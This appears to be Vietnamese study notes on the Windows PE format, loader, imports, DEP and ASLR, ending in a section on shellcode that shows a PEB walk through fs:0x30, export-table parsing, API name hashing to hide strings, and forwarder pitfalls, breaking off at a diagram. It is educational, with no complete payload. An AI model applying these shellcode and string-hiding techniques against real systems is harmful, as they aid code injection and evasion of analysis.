

8 trường đầu tiên của optional header là các trường tiêu chuẩn để định nghĩa cho mọi bản triển kahi COFF. Những trường này chứa những thông tin chung hữu ích cho quá trình loading và chạy một file thực thi . Nó không đổi cho cả PE32+



2. Optional Header Windows-Specific Fields (Image Only)

kết tiếp 21 trường  là một mở rộng của định dạng header tùy chọn COFF. Các trường này chứa các thông tin thêm được yêu cầu bởi linker và loader của Windows.



| **Offset (PE32 / PE32+)** | **Size (PE32 / PE32+)** | **Field** | **Description** |
|---|---|---|---|
| **28 / 24** | 4 / 8 bytes | `ImageBase` | Địa chỉ ưu tiên của byte đầu tiên của image khi được nạp vào bộ nhớ; giá trị này phải là bội số của 64 KB. Giá trị mặc định của DLL là `0x10000000`, Windows CE EXE là `0x00010000`, còn các Windows NT/2000/XP/95/98/Me thường là `0x00400000`. |
| **32 / 32** | 4 bytes | `SectionAlignment` | Độ căn chỉnh, tính bằng byte, của các section khi chúng được nạp vào bộ nhớ. Giá trị phải lớn hơn hoặc bằng `FileAlignment`. Mặc định thường bằng kích thước page của kiến trúc. |
| **36 / 36** | 4 bytes | `FileAlignment` | Hệ số căn chỉnh, tính bằng byte, dùng để căn dữ liệu thô của các section trong file. Giá trị nên là lũy thừa của 2 trong khoảng từ 512 byte đến 64 KB. Mặc định là 512 byte. Nếu `SectionAlignment` nhỏ hơn kích thước page của kiến trúc thì `FileAlignment` phải bằng `SectionAlignment`. |
| **40 / 40** | 2 bytes | `MajorOperatingSystemVersion` | Số phiên bản chính của hệ điều hành được yêu cầu để chạy image. |
| **42 / 42** | 2 bytes | `MinorOperatingSystemVersion` | Số phiên bản phụ của hệ điều hành được yêu cầu để chạy image. |
| **44 / 44** | 2 bytes | `MajorImageVersion` | Số phiên bản chính của image. |
| **46 / 46** | 2 bytes | `MinorImageVersion` | Số phiên bản phụ của image. |
| **48 / 48** | 2 bytes | `MajorSubsystemVersion` | Số phiên bản chính của subsystem được yêu cầu. |
| **50 / 50** | 2 bytes | `MinorSubsystemVersion` | Số phiên bản phụ của subsystem được yêu cầu. |
| **52 / 52** | 4 bytes | `Win32VersionValue` | Trường dự phòng, bắt buộc phải có giá trị bằng `0`. |
| **56 / 56** | 4 bytes | `SizeOfImage` | Tổng kích thước của image trong bộ nhớ, bao gồm tất cả header và section. Giá trị phải là bội số của `SectionAlignment`. |
| **60 / 60** | 4 bytes | `SizeOfHeaders` | Tổng kích thước của MS-DOS stub, PE header và các section header, sau đó được làm tròn lên theo bội số của `FileAlignment`. |
| **64 / 64** | 4 bytes | `CheckSum` | Giá trị checksum của image file. Thuật toán tính checksum được hỗ trợ bởi `IMAGEHELP.DLL`. Trường này được kiểm tra khi load một số loại file như driver, boot DLL và các tiến trình Windows quan trọng. |
| **68 / 68** | 2 bytes | `Subsystem` | Xác định subsystem cần thiết để chạy image, ví dụ Windows GUI hoặc Windows CUI/Console. |
| **70 / 70** | 2 bytes | `DllCharacteristics` | Tập các cờ mô tả các đặc tính bảo mật và hành vi của image, chẳng hạn ASLR, DEP/NX và Control Flow Guard. |
| **72 / 72** | 4 / 8 bytes | `SizeOfStackReserve` | Kích thước không gian stack cần được reserve. Ban đầu chỉ phần được chỉ định bởi `SizeOfStackCommit` được commit; phần còn lại có thể được cấp thêm theo từng page khi cần. |
| **76 / 80** | 4 / 8 bytes | `SizeOfStackCommit` | Kích thước phần stack được commit ban đầu. |
| **80 / 88** | 4 / 8 bytes | `SizeOfHeapReserve` | Kích thước không gian heap cục bộ cần được reserve. Ban đầu chỉ phần được chỉ định bởi `SizeOfHeapCommit` được commit; phần còn lại có thể được cấp thêm theo từng page khi cần. |
| **84 / 96** | 4 / 8 bytes | `SizeOfHeapCommit` | Kích thước phần heap được commit ban đầu. |
| **88 / 104** | 4 bytes | `LoaderFlags` | Trường dự phòng, bắt buộc phải có giá trị bằng `0`. |
| **92 / 108** | 4 bytes | `NumberOfRvaAndSizes` | Số lượng entry trong bảng Data Directory nằm ở phần còn lại của Optional Header. Mỗi entry mô tả vị trí và kích thước của một cấu trúc hoặc vùng dữ liệu trong PE. |

##### Data directories

Với mỗi data directories cung cấp địa chỉ và kích thước của một bảng hoặc một xâu mà Windows sử dụng. Những data directory entries này được nạp tất cả vào bộ nhớ để mà hệ thống có thể sử dụng chúng trong quá trình chayk. một data directory là một trường 8 byte, chúng được khai báo như sau:



Trường đầu tiên - VitualAddress là RVA của bảng. `RVA` là địa chỉ của bảng tính từ địa chỉ cơ sở cuả image khi bảng được nạp vào bộ nhớ. Trường thứ 2 cho biết kích thước tính bawfg byte. Các Data directory - thành phần của cùng có optional header  được liệt kê dưới đây:

| **Offset (PE32 / PE32+)** | **Size** | **Field** | **Description** |
|---|---:|---|---|
| **96 / 112** | 8 bytes | `Export Table` | Địa chỉ và kích thước của bảng export, chứa thông tin về các hàm hoặc symbol mà PE cung cấp cho các module khác. Thường liên quan đến section `.edata`. |
| **104 / 120** | 8 bytes | `Import Table` | Địa chỉ và kích thước của bảng import, mô tả các DLL và hàm bên ngoài mà PE cần sử dụng. Thường liên quan đến section `.idata`. |
| **112 / 128** | 8 bytes | `Resource Table` | Địa chỉ và kích thước của bảng resource, chứa các tài nguyên như icon, dialog, string, manifest hoặc hình ảnh. Thường nằm trong section `.rsrc`. |
| **120 / 136** | 8 bytes | `Exception Table` | Địa chỉ và kích thước của bảng exception, chứa thông tin hỗ trợ xử lý exception và unwind stack. Thường liên quan đến section `.pdata`. |
| **128 / 144** | 8 bytes | `Certificate Table` | Địa chỉ và kích thước của bảng certificate, chứa thông tin chữ ký số và chứng thực của file PE. Khác với đa số Data Directory khác, trường địa chỉ của mục này sử dụng **file offset** thay vì RVA. |
| **136 / 152** | 8 bytes | `Base Relocation Table` | Địa chỉ và kích thước của bảng relocation. Bảng này được sử dụng khi image không thể được load tại `ImageBase` mong muốn và cần điều chỉnh các địa chỉ tuyệt đối. Thường nằm trong section `.reloc`. |
| **144 / 160** | 8 bytes | `Debug` | Địa chỉ và kích thước của dữ liệu debug, có thể chứa thông tin phục vụ debugger như đường dẫn PDB hoặc các debug directory entry. |
| **152 / 168** | 8 bytes | `Architecture` | Trường dự phòng, bắt buộc phải có giá trị bằng `0`. |
| **160 / 176** | 8 bytes | `Global Ptr` | Chứa RVA của giá trị được sử dụng cho global pointer register. Trường `Size` của entry này phải bằng `0`. |
| **168 / 184** | 8 bytes | `TLS Table` | Địa chỉ và kích thước của bảng Thread Local Storage (TLS), chứa thông tin về dữ liệu riêng cho từng thread và có thể bao gồm TLS callback. |
| **176 / 192** | 8 bytes | `Load Config Table` | Địa chỉ và kích thước của cấu trúc Load Configuration. Có thể chứa nhiều thông tin liên quan đến cơ chế runtime và bảo mật như security cookie, CFG hoặc các cấu hình loader khác. |
| **184 / 200** | 8 bytes | `Bound Import` | Địa chỉ và kích thước của bảng Bound Import, lưu thông tin import đã được bind trước nhằm giảm một phần công việc phân giải import khi load executable. |
| **192 / 208** | 8 bytes | `IAT` | Địa chỉ và kích thước của Import Address Table. Sau khi loader xử lý import, bảng này chứa địa chỉ thực tế của các hàm được import để chương trình có thể gọi chúng. |
| **200 / 216** | 8 bytes | `Delay Import Descriptor` | Địa chỉ và kích thước của bảng Delay Import. Các thư viện hoặc hàm trong bảng này chỉ được resolve khi chương trình thực sự cần sử dụng chúng thay vì ngay khi PE được load. |
| **208 / 224** | 8 bytes | `CLR Runtime Header` | Địa chỉ và kích thước của CLR Runtime Header. Trường này thường xuất hiện trong các executable .NET và cung cấp thông tin cần thiết cho Common Language Runtime. |
| **216 / 232** | 8 bytes | `Reserved` | Trường dự phòng, bắt buộc phải có giá trị bằng `0`. |

##### Section table


Sau optional header là section header, những headers này chứa các thông tin về sections của bảng PE:



| **Offset** | **Size** | **Field** | **Description** |
|---:|---:|---|---|
| **0** | 8 bytes | `Name` | Tên của section, được lưu dưới dạng chuỗi UTF-8 dài 8 byte và được đệm bằng byte null nếu ngắn hơn 8 ký tự. Nếu tên dài đúng 8 ký tự thì không có byte null kết thúc. Với tên dài hơn 8 ký tự trong object file, trường này có thể chứa dấu `/` theo sau bởi một số thập phân biểu diễn offset vào string table. Executable image không sử dụng string table và không hỗ trợ tên section dài hơn 8 ký tự. |
| **8** | 4 bytes | `VirtualSize` | Tổng kích thước của section khi được nạp vào bộ nhớ. Nếu `VirtualSize` lớn hơn `SizeOfRawData`, phần còn lại của section sẽ được điền bằng byte `0`. Trường này chỉ có ý nghĩa với executable image và thường được đặt bằng `0` trong object file. |
| **12** | 4 bytes | `VirtualAddress` | Với executable image, đây là RVA của byte đầu tiên của section, tính tương đối so với `ImageBase` khi section được load vào bộ nhớ. Với object file, trường này có thể biểu diễn địa chỉ trước khi relocation được áp dụng, nhưng compiler thường đặt bằng `0` để đơn giản hóa. |
| **16** | 4 bytes | `SizeOfRawData` | Kích thước dữ liệu của section được lưu trên đĩa. Với executable image, giá trị này phải là bội số của `FileAlignment`. Nếu nhỏ hơn `VirtualSize`, phần còn thiếu sẽ được zero-fill khi load vào bộ nhớ. Do `SizeOfRawData` được làm tròn theo alignment còn `VirtualSize` thì không, `SizeOfRawData` cũng có thể lớn hơn `VirtualSize`. Nếu section chỉ chứa dữ liệu chưa khởi tạo thì trường này thường bằng `0`. |
| **20** | 4 bytes | `PointerToRawData` | File offset trỏ đến vị trí bắt đầu dữ liệu thô của section trong file COFF/PE. Với executable image, giá trị phải được căn chỉnh theo `FileAlignment`. Với object file, nên căn chỉnh theo biên 4 byte để đạt hiệu năng tốt. Nếu section chỉ chứa dữ liệu chưa khởi tạo thì trường này thường bằng `0`. |
| **24** | 4 bytes | `PointerToRelocations` | File offset trỏ đến danh sách relocation entry của section. Trường này bằng `0` đối với executable image hoặc khi section không có relocation. |
| **28** | 4 bytes | `PointerToLinenumbers` | File offset trỏ đến danh sách thông tin line number của section. Nếu không có COFF line number thì trường này bằng `0`. Trong executable image, giá trị thường bằng `0` vì cơ chế COFF debugging cũ đã bị deprecated. |
| **32** | 2 bytes | `NumberOfRelocations` | Số lượng relocation entry của section. Đối với executable image, trường này thường bằng `0`. |
| **34** | 2 bytes | `NumberOfLinenumbers` | Số lượng line-number entry của section. Trong executable image, giá trị thường bằng `0` vì thông tin debug dạng COFF đã bị deprecated. |
| **36** | 4 bytes | `Characteristics` | Tập các flag mô tả đặc tính và quyền của section, chẳng hạn section chứa code hay data, có thể đọc, ghi hoặc thực thi, hoặc chứa dữ liệu đã/chưa được khởi tạo. |

## Phần 3 — Entry point, CRT, imports và quyền bộ nhớ

6. Entry Point → CRT → WinMain — hiểu chương trình bắt đầu và tiếp tục chạy thế nào.
7. Imports, IAT và exports — chương trình tìm và gọi hàm trong DLL ra sao.
8. Quyền bộ nhớ và ASLR — R/W/X, DEP, VirtualProtect, địa chỉ có thể thay đổi.
9. Shellcode và XOR — mã máy chạy trong tiến trình; XOR dùng để biến đổi rồi khôi phục byte.
10. Reverse engineering/debugging — IDA đọc lệnh, CFF đọc PE, HxD sửa byte; debugger kiểm tra lúc chạy.

###  Entry Point → CRT → WinMain — hiểu chương trình bắt đầu và tiếp tục chạy thế nào.

#### Entry Point

Nó là RVA của địa chỉ đầu tiên mà Windows bắt đầu thực thi sau khi PE được load vào memory. Microsoft mô tả đây là địa chỉ entry point tương đối với ImageBase; với executable thì đây chính là starting address.

```
EntryPoint VA = ImageBase + AddressOfEntryPoint
```

Trong chương trình C/C++ build bình thường bằng MSVC, entry point thường trỏ vào một hàm startup do C Runtime (CRT) cung cấp.

#### CRT nằm giữa Entry Point và WinMain

CRT Là một thành phần cốt lõi của hệ điều hành Windows (đặc biệt từ Windows 10 và các bản cập nhật).

Cung cấp các hàm C tiêu chuẩn (Standard C Library):

- Quản lý bộ nhớ: malloc(), free(), calloc(), realloc()
- Thao tác chuỗi và bộ nhớ: strcpy(), strlen(), memcpy(), memset()
- Vào/ra dữ liệu (I/O): printf(), scanf(), fopen(), fread(), fwrite()
- Toán học & Tiện ích: sin(), cos(), abs(), rand(), qsort(), exit()

Trước khi hàm main - winmain chạy, crt sẽ thực hiện công việc khởi tao: thiết lập bảng phân công bộ nhớ (heap), thiết lập các biến môi trường, xử lý các đối tượng toàn cục và thiết lập các luồng  nhập tiêu chuẩn.

Các bản CRt đã và đang được phát triển như:
1. static/dynamic CRT truyền thống (MSVCRxx.dll):
    - các file như msvcrt.dll, msvcr100.dll, msvcr120.dll.
2. Universal C Runtime - UCRT:
    - Bắt đầu từ Windows 10 và Visual Studio 2015, Microsoft tái cấu trúc CRT thành UCRT - ucrtbase.dll.
    - UCRT là một thành phần chính thức của Windows OS, được cập nhật tự động qua Windows Update

Với Windows GUI application, flow điển hình là:
```
AddressOfEntryPoint ->  WinMainCRTStartup ->CRT initialization -> WinMain(...)-> Your application code
```

#### Winmain

với mọi chương trình Windows gồm các hàm entry-point  tên là winmain hoặc là wWinmain.

Cả hai hàm đều có cú pháp chuẩn như sau:
```cpp
int WINAPI wWinMain(
    HINSTANCE hInstance,     // Handle quản lý Instance của ứng dụng
    HINSTANCE hPrevInstance, // Luôn luôn là NULL trong Windows 32-bit/64-bit
    PWSTR     lpCmdLine,     // Tham số dòng lệnh (Unicode)
    int       nCmdShow       // Trạng thái hiển thị cửa sổ ban đầu
);
```

1. HINSTANCE hInstance: con trỏ quản lý đại diện cho file .exe của ứng dung khi nạp vào bộ nhớ, Windows dùng nó để xác định tài nguyên thuojc về ứng dụng.
2.  HINSTANCE hPrevInstance: dùng trên window 16 bit để kiểm tra xem chương trình đã có phiên bản nào đnag chạy chưa. Trên các hệ điều hành win32/64 hiện nay, tham số ny bằng null.
3. PWSTR lpCmdLine: Chuỗi chứa các tham số dòng lệnh được truyền vào khi mở ứng dụng.
4. cuối cùng: cờ chỉ định hiển thị cửa số chính khio mở ứng dụng.

#### chương trình bắt đầu và tiếp tục chạy thế nào



### Imports, IAT và exports — chương trình tìm và gọi hàm trong DLL ra sao.

#### Import

Import thể hiện thư viện và API mà image khai báo sử dụng.

Nhóm API có thể gợi ý thao tác tệp, process, mạng, registry hoặc bộ nhớ.

Import cho biết khả năng/phụ thuộc, không chứng minh API chắc chắn đã được gọi.

#### DLL


DLL - Dynamic Link Library  là các file chứa mã, dữ liệu hoặc tài nguyên (hình ảnh, giao diện...) mà nhiều chương trình trên Windows có thể chia sẻ và sử dụng cùng một lúc.

- DLL có thể là dependency được khai báo trong Import Directory.
- DLL cũng có thể được yêu cầu trong runtime bởi cơ chế nạp động.
- Loader có thể nạp dependency của DLL theo chuỗi nhiều tầng.
- Một module chỉ xuất hiện trong process sau khi được ánh xạ và khởi tạo phù hợp.

> Không thấy tên DLL trong import table không chứng minh DLL không bao giờ được sử dụng.



##### 1. tìm DLL cần nạp
- Loader xác định tên DLL và các dependency.
- Việc tìm file phụ thuộc tên, đường dẫn, cấu hình và ngữ cảnh process.
- Khác biệt 32-bit/64-bit có thể dẫn tới DLL khác nhau.
- Nhà phân tích ghi lại đường dẫn tuyệt đối, hash, chữ ký và kiến trúc.

> Import table cho biết yêu cầu; filesystem và module list cho biết file thực tế được dùng.

* Lưu ý: DLL search order và nguy cơ nạp nhầm: Search order là quy tắc hệ thống dùng để tìm file DLL khi tên file chưa xác định bằng đường dẫn tuyệt đối:
- Thứ tự tìm kiếm phụ thuộc cơ chế gọi và cấu hình Windows.
- Một DLL cùng tên ở vị trí ưu tiên không phù hợp có thể bị chọn nhầm.
- Đây là nền tảng để hiểu DLL search-order hijacking ở mức nhận diện.

##### 2: map DLL vào address space

- Loader tạo các mapping tương ứng với sections của DLL.
- Image base ưu tiên có thể khác địa chỉ nạp thực tế.
- Mỗi section nhận kích thước và quyền phù hợp.
- Module base giúp quy đổi RVA của DLL sang VA trong process.

##### 3: relocation của DLL
1. DLL có preferred ImageBase.
2. Nếu địa chỉ đã được sử dụng, DLL được nạp ở base khác.
3. Relocation entries điều chỉnh tham chiếu cần thiết.
4. Nhà phân tích dùng module base + RVA để xác định VA.

##### 4: resolve symbol và API
- DLL cung cấp hàm qua Export Directory.
- EXE/DLL yêu cầu hàm qua Import Directory.
- Loader ghép yêu cầu với địa chỉ export tương ứng.
- Địa chỉ được ghi vào vùng liên quan tới Import Address Table.
- Import theo tên và theo ordinal có cách nhận diện khác nhau.

#### IAT - Import Address Table

IAT chứa các địa chỉ mà image dùng để gọi hàm được cung cấp bởi module khác sau khi liên kết.
- Trước resolve, entry có thể chưa là địa chỉ hàm cuối cùng.
- Sau resolve, lệnh gọi gián tiếp có thể đi qua IAT.
- IAT giúp nối disassembly với API và module cung cấp API.
- IAT không phải nhật ký số lần API được gọi.

### Quyền bộ nhớ và ASLR — R/W/X, DEP, VirtualProtect, địa chỉ có thể thay đổi.

#### Quyền bộ nhớ R / W / X

| Quyền | Ý nghĩa |
|---|---|
| `R` | Read — được đọc |
| `W` | Write — được ghi |
| `X` | Execute — CPU được phép thực thi code |
| `RW` | đọc + ghi |
| `RX` | đọc + thực thi |
| `RWX` | đọc + ghi + thực thi |

#### DEP - Data Execution Prevention / NX — Data không là code

Nếu DEP/NX được áp dụng, cố thực thi code từ PAGE_READWRITE có thể dẫn đến access violation. Microsoft mô tả PAGE_READWRITE là vùng đọc/ghi và khi DEP bật thì việc execute vùng đó không được phép.

Là cơ chế bảo mật kết hợp giữa phần cứng (CPU) và phần mềm (OS) nhằm ngăn chặn mã độc chạy từ các vùng bộ nhớ vốn chỉ dùng để chứa dữ liệu (như Stack hoặc Heap)

Một vùng nhớ chỉ nên có quyền Write hoặc Execute, không bao giờ được có cả hai cùng lúc r+w+x.

#### VirtualProtect()
Windows cho phép chương trình thay đổi quyền của một vùng memory trong runtime:

```go
VirtualProtect(
    address, //địa chỉ con trỏ bắt đầu
    size, // kích thước vùng nhớ
    newProtection, //Quyền mới
    &oldProtection // biến lưu quyền cũ
);
```

#### ASLR - Address Space Layout Randomization.

Cơ chế ngẫu nhiên hóa địa chỉ nạp của các thành phần chương trình (Stack, Heap, các file DLL, Executable) mỗi khi ứng dụng hoặc hệ thống khởi động.

Ngăn chặn các đòn tấn công khai thác bộ nhớ dựa trên địa chỉ cố định (như Buffer Overflow, Return-to-libc, ROP chain).

Cách hoạt động:
- Nếu không có ASLR: Hàm system() trong kernel32.dll luôn nằm ở địa chỉ cố định (ví dụ: 0x7C812345). Hacker chỉ cần ghi đè địa chỉ này để chiếm quyền kiểm soát.
- Khi có ASLR: Mỗi lần chạy, địa chỉ của kernel32.dll sẽ bị xáo trộn (ví dụ: lần 1 là 0x7FF8..., lần 2 là 0x7FF9...).

## Phần 4 — Shellcode: PEB walk, export table và hash

> Ở blog này mình sẽ giới thiệu sơ qua một shellcode là gì và cách mà nó có thể  hoạt động và đạt một số target.

### Shellcode??

Bản chất shellcode là một đoạn code nhỏ được sử dụng làm phần tải - payload trong các cuộc khai thác tấn công lỗ hổng chiến quyền điều khiển hoặc thực thi cái j đó trên máy nạn nhân.

các tính chất của một shellcode:
- `position-independent:` khong hardcode địa chỉ nào. Mọi địa chỉ đều được Tính tại runtime (call/pop, PEB).
- `Self-Resolving:` không dùng IAT của chương tình. Tự tìm kernel32, tự parse Export Table để lấy hàm.
- `ASLR-SAFE:` chạy được dù DLL nằm ở đâu. Vì mọi thứ đều tra tại runtime, không giả định địa chỉ.
- `Không Phá chủ:` bảo toàn thanh ghi, không gây crash PUSHAD/POPAD; kết thúc sạch để chủ tiếp tục chạy.

### Khái niệm.

ở đây mình sẽ lấy một ví dụ trực tiếp trên một bài lab.

#### Vấn đề làm sao tìm được `WinExec` mà không được import?

khi bạn viết shellcode, bạn không có những thứ mà một chương trình bình thường có:

```
Chương trình bình thường                Shellcode
─────────────────────────                ─────────
#include <windows.h>                     ✗ không có header
WinExec("calc.exe", 1);                  ✗ không có compiler
    ↓
linker sinh ra IAT entry                 ✗ không có linker
    ↓
loader điền địa chỉ thật                 ✗ không có loader điền sẵn
    ↓
call [0x00402010]                        ✓ chỉ có vài chục byte máy

```

-> Shellcode phải tự làm lại các công việc của loader, trong vài chục bytes.

#### Khái niệm 1: PEB - danh bạ các DLL đã nạp

DLL là gì thì mình có giới thiệu ở part trước rồi.

Windows lưu mọi thứ về tiến trình hiện tại trong PEB (Process Environment Block). Không cần import gì cả - truy cập qua thanh ghi FS

```
mov eax, [fs:0x30]        ; EAX = PEB
```
```
   FS:0x30
      │
      ▼
   ┌──────────── PEB ────────────┐
   │ +0x00  ...                  │
   │ +0x0C  Ldr  ────────────┐   │
   │ +0x30  ...              │   │
   └─────────────────────────┼───┘
                             │
                             ▼
   ┌──────── PEB_LDR_DATA ───────────────┐
   │ +0x0C  InLoadOrderModuleList        │  ← tải theo thứ tự
   │ +0x14  InMemoryOrderModuleList      │  ← theo thứ tự bộ nhớ
   │ +0x1C  InInitializationOrderList    │  ← theo thứ tự init
   └─────────────────────────────────────┘
                 │
                 ▼  danh sách MÓC VÒNG (entry cuối trỏ về head)
   ┌───────────────────────────────────────────────────────┐
   │ entry 0: notepad.exe                                  │
   │ entry 1: ntdll.dll                                    │
   │ entry 2: kernel32.dll                                 │
   │ entry 3: kernelbase.dll                               │
   │ entry 4: msvcrt.dll                                   │
   └───────────────────────────────────────────────────────┘

```

Mỗi entry là một `LDR_DATA_TABLE_ENTRY`:

```
   +0x00  InLoadOrderLinks          ┐
   +0x08  InMemoryOrderLinks        │ danh sách liên kết
   +0x10  InInitializationOrderLinks┘
   +0x18  DllBase         ←---- ĐỊA CHỈ NẠP CỦA DLL  (cái ta cần!)
   +0x1C  EntryPoint
   +0x20  SizeOfImage
   +0x24  FullDllName     (UNICODE_STRING)
   +0x2C  BaseDllName     (UNICODE_STRING: Length @+0x2C, Buffer @+0x30)

```

Đây là chìa khoá. Không cần biết kernel32 nằm ở đâu — hỏi PEB.

#### Khái niệm 2: Export Table - danh bạ hàm trong một DLL

có `DLLbase` rồi, vẫn chưa biết `WinExec` ở đâu trong DLL, DLL có một bảng mục lục:

```
   kernel32.dll trong bộ nhớ
   ┌────────────────────────────────────────────┐
   │ MZ header                                  │
   │ ...                                        │
   │ +0x3C  e_lfanew  ──────────┐               │
   │                            ▼               │
   │              ┌──── PE header ────┐         │
   │              │ +0x78 Export RVA  │─────┐   │
   │              └───────────────────┘     │   │
   │                                        ▼   │
   │              ┌───── EXPORT DIRECTORY ─────┐│
   │              │ +0x18 NumberOfNames        ││
   │              │ +0x1C AddressOfFunctions   ││
   │              │ +0x20 AddressOfNames       ││
   │              │ +0x24 AddressOfNameOrdinals││
   │              └────────────────────────────┘│
   └────────────────────────────────────────────┘

```
Ba mảng làm việc cùng nhau:

```
   AddressOfNames[]        AddressOfNameOrdinals[]     AddressOfFunctions[]
   ┌──────────────┐        ┌──────────────────┐        ┌──────────────────┐
   │ -> "AccessChk"│       │        3         │        │  RVA_0           │
   │ -> "WinExec" │──idx─► │        7         │──────► │  RVA_1           │
   │ -> "WriteFile"│       │        1         │        │  RVA_2           │
   └──────────────┘        └──────────────────┘        │  RVA_7 = WinExec │
             ▲                                          └──────────────────┘
             │ tên hàm                                    ▲
        so sánh bằng HASH                                 │ + DllBase = địa chỉ thật

```

luồng tra cứu:
```
   1. Duyệt AddressOfNames[]  → tên hàm
   2. So sánh tên             → tìm thấy "WinExec" ở index i
   3. Đọc AddressOfNameOrdinals[i]  → ordinal = o
   4. Đọc AddressOfFunctions[o]     → RVA
   5. DllBase + RVA                 → ĐỊA CHỈ THẬT
```
#### Khái niệm 3: Hash - so sánh tên mà không cần chuỗi

Cách ngây thơ: nhúng chuỗi `WinExec` vfo shellcode rồi `strcmp`. Nhược điểm:
- Tốn chỗ - 7 bytes cho một tên; cần 5 hà là 35 +bytes.
- lộ ý định:  grep `Winexec` trong file là thấy.
- cần `strcpm` - lại phải resolve thêm hàm.
Cách chuyên nghiệp: băm tên thành một số 32 bit rồi so sánh số.

-> bạn không hề nhúng chuỗi `WinExec` vào file. Ai mở file bằng `strings` cũng không thấy. Họ chỉ thấy một số byte nhất định.

#### khái niệm 4: Export Forwarder - cái bẫy làm crash

Trong DLL, có một hàm có thể không phải là code mà chỉ là con trỏ sang DLL khác:

```
   kernel32.dll
   ┌──────────────────────────────────────┐
   │ "WinExec" → RVA trỏ vào...           │
   │                │                      │
   │                ▼                      │
   │   chuỗi "KERNELBASE.WinExec"         │  ← KHÔNG PHẢI CODE!
   └──────────────────────────────────────┘
```

Nếu bạn `call` vào đó -> CPU thực thi ký tự `ASCII` -> cash

Cách phát hiện: nếu RVA nằm trong chính khoảng của export Directory thì đó là forwarder.

```
forwarder <=> export_RVA < rva < export_RVA + export_size
```

### Bản đồ của một shellcode
```
   ┌─────────────────────────────────────────────────────────────────────┐
   │  PUSHAD                                    ← bảo toàn mọi thanh ghi  │
